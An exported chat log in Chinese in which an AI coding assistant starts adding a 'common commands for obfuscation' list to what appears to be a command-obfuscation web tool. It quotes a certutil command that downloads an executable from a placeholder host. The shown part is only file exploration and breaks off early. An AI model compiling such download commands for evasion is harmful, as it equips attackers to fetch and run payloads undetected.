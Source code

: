 

# 添加常见命令列表到GitHub Pages (2025-03-25 14:45:31)

_**User**_

现在这个项目可以上传到github pages了，但是我希望，加一个常见命令列表（用于变形使用的），比如certutil -urlcache -split -f http://xxx.com/xx.exe等等

---

_**Assistant**_

我需要先了解项目结构，再确定如何添加常见命令列表功能。

---

<details><summary>Listed current directory • **10** results</summary></details>

---

我看一下项目的README文件以更好地理解项目功能：

---

Read file: README.md

---

让我看一下GUI部分的代码，因为这是网页界面部分：

---

<details><summary>Listed directory gui • **10** results</summary></details>

---

让我看一下主页和测试页面：

---

Read file: gui/index.html

---

Read file: gui/test.html

---

现在，我们需要找一个合适的位置添加常见命令列表，特别是用于变形的命令例如`certutil -urlcache -split -f http://xxx.com/xx.exe`等。我来看一下资源目录和相关的JavaScript文件：

---

<details><summary>Listed directory gui/assets • **5** results</summary></details>

---

<details><summary>Listed directory gui/assets/js • **4** results</summary></details>

---
